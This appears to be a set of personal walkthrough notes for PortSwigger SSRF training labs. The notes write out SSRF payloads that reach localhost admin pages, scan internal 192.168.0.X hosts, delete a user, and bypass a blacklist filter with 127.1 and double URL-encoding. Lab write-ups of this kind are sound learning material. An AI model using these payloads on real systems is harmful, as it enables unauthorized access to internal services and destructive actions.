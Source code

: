 # 1. Lab [i](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
- Append `/admin` in URL, it'll throw error as ![image](https://github.com/user-attachments/assets/a522f7c7-2799-4163-b318-ff66b35a9767)
- We need to find a request from the local host > Capture a Stock Check Request > Send it to "Repeater" > Change the StockAPI call to `Internal Page`.
- From `stockApi=http%3A%2F%2Fstock.....` to `stockApi=http://localhost/admin`
- ![image](https://github.com/user-attachments/assets/4057fa42-3da5-4004-9183-006c91770151)
- Try deleting carlos user > Observe the requested URL > Pass it to `stockApi=http://localhost/admin/delete?username=carlos` > User is deleted now.

# Lab 2: [SSRF attacks against other back-end systems](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
- To Another backend system, i.e running on 192.168.0.X
- Use the Intruder module: `192.168.0.$X$:8080` > scan the ip from 1-256 > Update request with 200 code in `stockApi=http://192.168.0.154:8080/admin` > open URL in browser
- Try deleting carlos user > Observe the requested URL > Pass it to `stockApi=http://localhost/admin/delete?username=carlos` > User is deleted now.

# Lab 3: [SSRF with blacklist-based input filter](https://portswigger.net/academy/labs/launch/f97f7df5a96da8563edc18e5544b8ef962f8ee47abd9b9bb3d30706f15bff341?referrer=%2fweb-security%2fssrf%2flab-ssrf-with-blacklist-filter)
- SSRF with blacklist-based input filters:
```
Blacklisted:
http://127.0.0.1/
http://localhost/
http://127.1/admin
```

```
Worked:
http://127.1/ >> http://127.0.0.1/
http://127.1/admin >> Double url Encode 'a' to work
```
- Try deleting carlos user > Observe the requested URL > Pass it to `stockApi=...` > User is deleted now.

# Lab 4: []()


# Lab 5: []()

